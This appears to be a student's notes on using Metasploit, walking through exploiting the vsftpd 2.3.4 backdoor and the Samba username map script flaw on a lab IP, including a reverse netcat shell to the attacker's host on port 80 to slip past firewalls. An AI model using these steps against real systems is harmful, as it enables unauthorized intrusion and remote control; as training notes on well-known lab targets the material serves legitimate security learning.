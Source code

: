 - exploit //runs the current task
    
- Install metasploit if you don't have yet
    

  

Example of metasploit use

- Open terminator
    
- msfconsole
    
- use [here he put the name of exploit that he found searching Google. Ex explot/unix/ftp/vsfpd_234_backdoor. This is a backdoor that one of the ports of the computer had]
    
- show option //shows options of exploit at that Port
    
- set RHOST 10.20.14.204 //ip of target
    
- exploit //run again if nothing happens
    

If everything goes well, a mensaje will appear: command Shell session 1 opened. This means you got access to the computer and can use linux line commands.

  

Code execution vulnerabilities

Example with samba username map script

- Open terminator
    
- use/exploit/multi/samba/username_script
    
- show options //Every Time you show the options of exploit will have different exploits
    
- set RHOST 10.20.14.204 //In the previous example, was used a backdoor that was already installed on the target computer. You just had to connect to the backdoor and could run any Linux command on the target computer. This time there is program with an execution vulnerability, a flaw that will allow us to run a small piece of code
    
- show payloads //Payloads are small pieces of code that are going to be executed on the target computer once the vulnerability is exploited. Depending on the payload we choose to execute, it will do something useful to us. Bind payloads, open a port on the target computer and we connect to that port. Reverse payloads open a port on my machine and the target connects. Useful to pass firewalls
    
- set PAYLOAD cmd/unix/reverse_netcat
    
- show options
    
- set LHOST 10.20.14.203 //my ip(hacker)
    
- set LPORT 80 //The target will try to connect with port 80, that is responsible by web browsers and doesn't alert firewalls, because firewalls are going to think that the user is just browsing the internet. BUT if you are using a server in that port, it can cause conflicts
    
- exploit
    

  

Nexpose tool
